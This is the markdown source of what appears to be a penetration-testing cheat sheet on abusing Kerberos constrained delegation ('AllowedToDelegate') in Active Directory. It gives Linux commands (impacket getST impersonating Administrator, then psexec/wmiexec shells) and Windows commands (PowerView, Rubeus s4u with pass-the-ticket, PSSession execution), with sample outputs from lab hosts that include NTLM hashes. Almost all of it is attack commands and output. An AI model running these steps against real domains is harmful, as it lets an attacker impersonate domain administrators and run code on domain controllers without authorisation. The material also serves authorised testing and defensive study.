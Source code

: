 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "Allowedtodelegate", "Active Directory", "Windows"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Pre-Check

```console
# With password
impacket-findDelegation '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console
# With hash
impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC_IP> -hashes :<HASH> -no-pass
```

#### 2. Get a Service Ticket

```console
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn '<SERVICE>/<TARGET_DOMAIN>' -hashes :<HASH> -impersonate '<IMPERSONATE_USER>' '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :80d4ea8c2d5ccfd1ebac5bd732ece5e4 -impersonate Administrator 'intelligence.htb/svc_int'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

#### 3. Convert Ticket \[Optional\]

```console
python3 rubeustoccache.py '<BASE64_TICKET>' '<IMPERSONATE_USER>.kirbi' '<IMPERSONATE_USER>.ccache'
```

```console {class="sample-code"}
python3 ~/Tools/RubeusToCcache/rubeustoccache.py 'doIG9DCCBv ...[SNIP]... 9yZS5jb20=' 'administrator.kirbi' 'administrator.ccache'
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to administrator.kirbi
[*] Writing converted .ccache file to administrator.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=administrator.ccache
```

#### 4. Remote

```console
export KRB5CCNAME='<CCACHE_FILE>'
```

```console {class="sample-code"}
$ export KRB5CCNAME=Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

```console
# psexec
sudo ntpdate -s <DC> && impacket-psexec '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ impacket-psexec client.example.com/administrator@dc01.client.example.com -k -no-pass
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Requesting shares on dc01.client.example.com.....
[*] Found writable share ADMIN$
[*] Uploading file MOjmtmkC.exe
[*] Opening SVCManager on dc01.client.example.com.....
[*] Creating service NTdz on dc01.client.example.com.....
[*] Starting service NTdz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```console
# wmiexec
sudo ntpdate -s <DC> && wmiexec.py '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Pre-Check

```console
# Import powerview
. .\PowerView.ps1
```

```console
# Check msds-allowedtodelegateto
Get-NetUser -TrustedToAuth
```

{{< tab set1-2 tab1 active >}}Hash{{< /tab >}}{{< tab set1-2 tab2 >}}Kerberos{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

#### 2. Calculate Hash

```console
.\rubeus.exe hash /password:'<PASSWORD>' /user:'<USER>' /domain:<DOMAIN>
```

#### 3. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console {class="sample-code"}
.\rubeus.exe s4u /user:'MS01$' /rc4:7ddf32e17a6ac5ce04a8ecbf782ca509 /impersonateuser:administrator /msdsspn:"cifs/dc01.client.example.com" /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: S4U

[*] Using rc4_hmac hash: 7ddf32e17a6ac5ce04a8ecbf782ca509
[*] Building AS-REQ (w/ preauth) for: 'CLIENT.EXAMPLE.COM\MS01$'
[*] Using domain controller: 172.16.1.2:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFljCCBZKg ...[SNIP]... hPUkUuQ09N

[*] Action: S4U

[*] Building S4U2self request for: 'MS01$@CLIENT.EXAMPLE.COM'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2self request to 172.16.1.2:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'MS01$@CLIENT.EXAMPLE.COM'
[*] base64(ticket.kirbi):

      doIGGjCCBh ...[SNIP]... cbBU1TMDIk

[*] Impersonating user 'administrator' to target SPN 'cifs/dc01.client.example.com'
[*] Building S4U2proxy request for service: 'cifs/dc01.client.example.com'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2proxy request to domain controller 172.16.1.2:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01.client.example.com':

      doIG9DCCBv ...[SNIP]... 9yZS5jb20=
[+] Ticket successfully imported!
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}
{{< tabcontent set1-2 tab2 >}}

#### 2. Request a TGT

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

#### 3. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}

#### 4. Remote

```console
# Check
klist
```

```console
# Create session
$session = new-pssession -computername <COMPUTER_NAME>
```

```console
# Execute cmd
invoke-command $session { <CMD> }
```

{{< /tabcontent >}}
